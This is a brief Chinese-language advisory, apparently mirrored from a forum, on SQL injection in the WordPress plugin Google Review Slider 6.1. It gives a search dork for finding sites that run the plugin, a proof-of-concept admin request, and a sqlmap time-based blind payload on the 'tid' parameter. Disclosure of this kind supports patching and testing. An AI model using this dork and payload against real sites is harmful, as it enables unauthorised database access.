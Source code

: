 # WordPress Plugin - Google Review Slider 6.1 SQL Injection

> 原文：[https://www.zhihuifly.com/t/topic/3240](https://www.zhihuifly.com/t/topic/3240)

# WordPress Plugin - Google Review Slider 6.1 SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

inurl:"/wp-content/plugins/wp-google-places-review-slider/"

POC :

```
 GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
 &taction=edit HTTP/1.1 
```

sqlmap result

```
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
title: "MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
(SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edit 
```